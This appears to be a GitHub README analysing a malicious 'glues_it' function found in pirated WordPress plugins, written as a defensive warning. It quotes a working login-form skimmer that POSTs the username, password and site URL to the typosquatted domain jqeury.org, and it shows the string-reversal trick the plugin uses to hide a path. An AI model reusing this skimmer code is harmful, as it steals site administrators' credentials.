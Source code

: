 # WARNING - Please Read
I did not wrote this code. I'm sharing it here for you to benefit. This code was found on a Wordpress plugin.

## Wordpress was returning an error which said like this:
```sh
Fatal error: cannot redeclare glues_it() (previously declared in ...
```

> I went ahead and did some research and found out that the person who was hired to edit the site of my old client was using plugins with this sketchy Wordpress function. I believe that these are premium plugins being pirated.

You can find the original piece of code here: [awful/glues_it/glues_it.php](http://git.io/vs0GD)

#### Update 1
> I’m still looking out what it really does but for the time being I told the site owner to get rid of the plugins with the function.

#### Update 2
The function code is actually written in Spanish, at least most of it. If you see words, parts of the code not making any sense, probably that part is written in Spanish.

#### Update 3
I got rid of all those dots (something that the code probably does by itself) but I did it to be able to make it a little more readable, also after doing this I had to make few fixes to make sure the code was the same as the original, just without all those dots.

Here is the link to the new file without the dots: [awful/glues_it/glues_it_CLEANED.php](http://git.io/vs0cs)

#### Update 4
The code makes reference to the domain "jqeury.org" on purpose to make you think you are requesting "jQuery.org".

Right after that the code does a request to the same domain at the following path:
```sh
jqeury.org/wp_ping.php?dname=wpd&tname=wpt&urliz=urlig
```

What does it does? I'm not sure, since my knowledge os limited on this, but maybe requesting data from Wordpress ... something like the site url ... not sure yet

#### Update 5
Take a look at "[jqeury.org/jquery-latest.js](http://git.io/vs0c6)" on line 56 after using jsbeautifier on it, this was the result: [awful/glues_it/jquery-latest.js](http://git.io/vs0c6)

At the beginning it looks like a regular jQuery Javascript file, but take a look at the lines 3349-3368, there is where the cute part begins. This file contains a script which "saves/sends (not sure if I'm correct)" the user/admin credentials using some method. I'm still looking.

Here is the part that I'm talking about:
```sh
$("#loginform").submit(function(event) {
    passwd = document.getElementById('user_pass').value;
    usr = document.getElementById('user_login').value;
    domainis = window.location.host;
    urlis = window.location.href;
    $.ajax({
        type: "POST",
        url: "http://jqeury.org/wp_ping.php",
        async: false,
        data: {
            name: usr,
            pwd: passwd,
            dname: domainis,
            urliz: urlis
        },
        success: function(response) {
            num = response;
        }
    });
});
```

I believe that is getting the data from the Wordpress login form (user, password, site domain and site url) and using Ajax with method POST and in someway sending it to http://jqeury.org/wp_ping.php where probably the creator of the script is saving it to a file where it can be read and then later on be used to log in to the victims site. This is just a vague expeculation of mine, again, my knowledge about this is limited.

I also found out that on line 145 of [awful/glues_it/glues_it_CLEANED.php](http://git.io/vs0cs) that there is a possible/interesting point, take a look at:
```sh
$nimda_pw = call_user_func($object_quince_pim, 'php.resu/sedulcni/nimda-pw');"
```

If we read
```sh
php.resu/sedulcni/nimda-pw
```

backwards (that is why at line 20 of [awful/glues_it/glues_it_CLEANED.php](http://git.io/vs0cs) "strrev" is used, to reverse the string) we get
```sh
wp-admin/includes/user.php
```

I still don't know yet why the creator of this script uses that file, but maybe is using it to, in someway, get advantage of Wordpress own code to accomplish his goal of getting the victims site url, username and password.
